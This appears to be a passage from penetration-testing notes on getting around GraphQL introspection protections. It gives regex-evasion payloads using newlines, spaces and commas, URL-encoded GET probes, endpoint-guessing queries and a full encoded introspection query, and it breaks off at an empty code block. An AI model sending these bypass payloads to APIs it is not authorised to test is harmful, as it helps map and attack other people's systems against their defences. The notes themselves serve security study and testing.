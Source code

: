 If introspection is disabled, insert a special character after the `__schema` keyword. Attempt to bypass the regex of excluding `__schema` in queries via spaces, newlines and commas since they are ignored by GraphQL but not by flawed regex:

```json
    #Introspection query with newline
    {
        "query": "query{__schema
        {queryType{name}}}"
    }
```

Attempt to run a probe over an alternative method as well such as GET or POST request with a content of `x-www-form-urlencoded`.

```json
    # Introspection probe as GET request
    GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

If the GraphQL endpoint is hidden, attempt to find it using various common endpoints (/api, /graphql, etc..). If found, send a universal query:

```json
/api?query=query{__typename}
```

>[!info]
>Try sending it as both a GET request (query=.....) and a POST request.

Attempt various endpoint bypasses such as newlines (%0A). spaces (%20) or commas (%2c). Try to overcome the introspection defenses via various URL encoded queries such as:

```bash
/api?query=query+IntrospectionQuery+%7B%0A++__schema+%7B%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

Or the following which uses a newline:

```bash
```